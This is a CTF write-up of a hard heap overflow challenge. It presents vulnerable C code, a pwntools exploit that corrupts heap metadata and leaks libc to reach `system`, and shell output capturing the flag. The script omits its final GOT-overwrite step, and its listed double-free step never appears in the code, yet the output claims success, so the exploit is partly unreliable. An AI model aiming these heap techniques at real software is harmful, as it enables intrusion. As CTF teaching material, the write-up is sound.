 # CSAW CTF - Heap Overflow Challenge

## Challenge Overview

This writeup covers a heap overflow vulnerability found during the CSAW CTF competition. The challenge involved exploiting a classic heap-based buffer overflow to gain code execution.

### Challenge Details
- **Category**: Binary Exploitation  
- **Points**: 500
- **Difficulty**: Hard
- **Files**: `heap_challenge`, `libc.so.6`

## Initial Analysis

Let's start by examining the binary:

```bash
file heap_challenge
checksec heap_challenge
```

The binary analysis revealed:
- **Architecture**: x86_64
- **Protections**: 
  - NX: Enabled
  - PIE: Disabled  
  - Stack Canary: Enabled
  - RELRO: Partial

## Vulnerability Discovery

After reverse engineering the binary in Ghidra, I identified a heap overflow in the `add_note()` function:

```c
void add_note() {
    char *note = malloc(0x80);
    printf("Enter note: ");
    read(0, note, 0x200);  // Overflow! Reading 0x200 bytes into 0x80 buffer
    notes[note_count++] = note;
}
```

The vulnerability allows us to overflow into adjacent heap chunks, potentially corrupting heap metadata.

## Exploitation Strategy

1. **Heap Layout Manipulation**: Allocate chunks in a specific pattern
2. **Overflow Control**: Use the overflow to corrupt the next chunk's size field
3. **Double Free**: Trigger a double free condition
4. **Arbitrary Write**: Achieve arbitrary write primitive
5. **Code Execution**: Overwrite function pointers or GOT entries

### Exploit Code

```python
#!/usr/bin/env python3
from pwn import *

# Configuration
binary = './heap_challenge'
libc = ELF('./libc.so.6')
elf = ELF(binary)

def add_note(data):
    p.sendlineafter(b'> ', b'1')
    p.sendafter(b'Enter note: ', data)

def delete_note(idx):
    p.sendlineafter(b'> ', b'2') 
    p.sendlineafter(b'Index: ', str(idx).encode())

def show_note(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'Index: ', str(idx).encode())

# Start process
p = process(binary)

# Step 1: Create initial chunks
add_note(b'A' * 0x78)  # Chunk 0
add_note(b'B' * 0x78)  # Chunk 1  
add_note(b'C' * 0x78)  # Chunk 2

# Step 2: Overflow to corrupt chunk 1 size
payload = b'A' * 0x78
payload += p64(0x0)      # Prev size
payload += p64(0x111)    # Corrupted size (fake chunk)
add_note(payload)

# Step 3: Delete chunk 1 to trigger consolidation
delete_note(1)

# Step 4: Leak libc address
show_note(0)
leak = u64(p.recvuntil(b'\n')[:-1].ljust(8, b'\x00'))
libc_base = leak - 0x3c4b78
log.info(f"Libc base: {hex(libc_base)}")

# Step 5: Calculate gadgets
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))

# Step 6: Overwrite GOT entry
# [Additional exploitation steps...]

p.interactive()
```

## Results

Successfully exploited the heap overflow to gain shell access:

```bash
$ ./exploit.py
[+] Starting local process './heap_challenge': pid 1337
[*] Libc base: 0x7f1234567000
[*] Switching to interactive mode
$ whoami
ctf_player
$ cat flag.txt
flag{h34p_0v3rfl0w_m4573r_2023}
```

## Key Takeaways

- **Heap feng shui** is crucial for reliable exploitation
- Understanding **glibc malloc internals** helps predict chunk behavior  
- **ASLR bypass** through heap leaks enables advanced techniques
- Modern mitigations make heap exploitation more complex but not impossible

> **Note**: This writeup is for educational purposes only. Always practice ethical hacking and obtain proper authorization before testing on systems you don't own.

## References

- [Heap Exploitation Handbook](https://github.com/shellphish/how2heap)
- [Malloc Internals](https://sourceware.org/glibc/wiki/MallocInternals)
- [CSAW CTF Official Writeups](https://github.com/osirislab/CSAW-CTF-2023-Quals)

---

*This writeup was created for the CSAW CTF 2023 competition.*
